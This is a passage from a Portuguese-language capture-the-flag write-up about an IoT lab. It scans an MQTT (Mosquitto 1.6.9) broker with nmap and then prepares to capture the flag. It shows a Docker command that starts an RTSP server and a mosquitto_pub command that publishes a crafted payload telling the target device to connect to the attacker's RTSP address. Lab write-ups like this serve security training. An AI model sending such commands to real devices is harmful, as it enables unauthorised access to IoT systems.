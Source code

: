 Com essa informação podemos utilizar o nmap para examinar essa porta, para obter as informações para as duas questões seguintes. O nmap encontra a versão do mosquitto como sendo **1.6.9** e o script consegue enumerar o "device/init", então a resposta é **y**, como mostrado na imagem abaixo.

![Scan do Nmap](./pics/21.2.png)

Agora para conseguir a flag é um pouco mais complicado. Primeiro usaremos um docker para iniciar um servidor de RTSP utilizando o comando "docker run --rm -it --network=host aler9/rtsp-simple-server".

![Iniciar Servidor RTSP](./pics/21.4.png)

Então publicaremos o nosso payload no dispositivo alvo utilizando o mosquitto_pub com o id, a URL do RTSP deve conter o ip da máquina atacante com um *path* qualquer. Assim o comando fica por exemplo "mosquitto_pub -h 10.10.157.94 -t device/PL52DK4FAPBFGX3J3QHC/cmd -m """{"cmd":"10","url":"rtsp://10.10.100.41:8554/lukewicz"}""" ".
